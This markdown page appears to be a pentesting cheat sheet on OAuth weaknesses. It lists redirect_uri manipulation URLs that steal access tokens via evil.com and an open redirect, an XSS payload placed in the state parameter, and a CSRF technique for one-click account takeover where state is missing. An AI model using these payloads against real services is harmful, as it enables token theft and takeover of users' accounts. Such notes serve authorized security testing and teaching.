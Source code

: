 ```yaml
---
title: "0Auth Authentication"
draft: false
images: []
description: "Pentesting 0Auth"
lead: "Pentesting 0Auth"
menu:
  docs:
    parent: "Wapp"
weight: 100
toc: true
---
```


## Grabbing OAuth Token via redirect_uri
Redirect to a controlled domain to get the access token
```
https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```
Redirect to an accepted Open URL in to get the access token
```
https://www.example.com/oauth20_authorize.srf?[...]&redirect_uri=https://accounts.google.com/BackToAuthSubTarget?next=https://evil.com
```
### Executing XSS via redirect_uri
```
https://example.com/oauth/v1/authorize?[...]&redirect_uri=data%3Atext%2Fhtml%2Ca&state=<script>alert('XSS')</script>
```
### Improper handling of state parameter
This is by far the most common issue I see in OAuth implementations. Very often, the state parameter is completely omitted or used in the wrong way. If a state parameter is nonexistent, or a static value that never changes, the OAuth flow will very likely be vulnerable to CSRF. Sometimes, even if there is a state parameter, the application might not do any validation of the parameter and an attack will work. The way to exploit this would be to go through the authorization process on your own account, and pause right after authorizing. You will then come across a request such as:
```
https://yourtweetreader.com?code=asd91j3jd91j92j1j9d1
```
After you receive this request, you can then drop the request because these codes are typically one-time use. You can then send this URL to a logged-in user, and it will add your account to their account. At first, this might not sound very sensitive since you are simply adding your account to a victim’s account. However, many OAuth implementations are for sign-in purposes, so if you can add your Google account which is used for logging in, you could potentially perform an Account Takeover with a single click as logging in with your Google account would give you access to the victim’s account.